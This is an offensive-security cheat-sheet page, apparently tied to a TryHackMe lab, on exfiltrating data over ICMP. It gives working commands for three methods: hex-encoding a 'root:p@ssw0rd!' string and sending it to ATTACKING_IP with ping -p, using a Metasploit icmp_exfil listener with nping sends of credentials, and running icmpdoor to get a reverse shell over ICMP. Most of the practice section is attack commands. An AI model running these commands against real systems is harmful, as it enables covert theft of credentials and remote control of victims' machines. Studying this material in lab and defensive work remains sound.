 # ICMP Exfiltration

## Theory

The Internet Control Message Protocol [ICMP](https://en.wikipedia.org/wiki/Internet_Control_Message_Protocol). It is a network layer protocol used to handle error reporting. 

### ICMP Data Section

On a high level, the ICMP packet's structure contains a Data section that can include strings or copies of other information, such as the IPv4 header, used for error messages. The following diagram shows the Data section, which is optional to use.  
We can leverage this section in order to exfiltrate datas.  

## Practice

{% tabs %}

{% tab title="Manualy" %}
We can, on linux targets, exfiltrate datas with the `-p` options of the `ping` command.  
```bash
root@victime$ echo 'root:p@ssw0rd!' | xxd -p
726f6f743a7040737377307264210a

root@victime$ ping ATTACKING_IP -c 1 -p 726f6f743a7040737377307264210a

```
{% hint style="danger" %}
Note that the -p option is only available for **Linux operating systems**. We can confirm that by checking the ping's help manual page.
{% endhint %}
{% endtab %}

{% tab title="metasploit" %}
let's set up the Metasploit framework by selecting the `icmp_exfil` module to make it ready to capture and listen for ICMP traffic. One of the requirements for this module is to set the `BPF_FILTER` option, which is based on TCPDUMP rules, to capture only ICMP packets and ignore any ICMP packets that have the source IP of the attacking machine as follows.

```bash
msf5 > use auxiliary/server/icmp_exfil
msf5 auxiliary(server/icmp_exfil) > set BPF_FILTER icmp and not src ATTACKING_IP
BPF_FILTER => icmp and not src ATTACKBOX_IP

msf5 auxiliary(server/icmp_exfil) > run
```  
  
On the target, we can now exfiltrate data.  
```bash
#First, send the BOF trigger
v4resk@victime$ sudo nping --icmp -c 1 ATTACKING_IP --data-string "BOFfile.txt"

#Datas
v4resk@victime$ sudo nping --icmp -c 1 ATTACKING_IP --data-string "admin:password"

#EOF end signal
v4resk@victime$ sudo nping --icmp -c 1 ATTACKING_IP --data-string "EOF"
```
{% endtab %}

{% tab title="icmpdoor" %}
[ICMPDoor](https://github.com/krabelize/icmpdoor) is an open-source reverse-shell written in Python3 and scapy. The tool uses the same concept we discussed earlier, where an attacker utilizes the Data section within the ICMP packet. The only difference is that an attacker sends a command that needs to be executed on a victim's machine. Once the command is executed, a victim machine sends the execution output within the ICMP packet in the Data section.  
  
On the victime machine:
```bash
victime@target$ sudo icmpdoor -i eth0 -d ATTACKING_IP
```
  
On the attacking machine:
```bash
veresk@kali$ sudo icmp-cnc -i eth1 -d VICTIME_IP
```
{% endtab %}
{% endtabs %}

## References

{% embed url="https://tryhackme.com/room/dataxexfilt/" %}
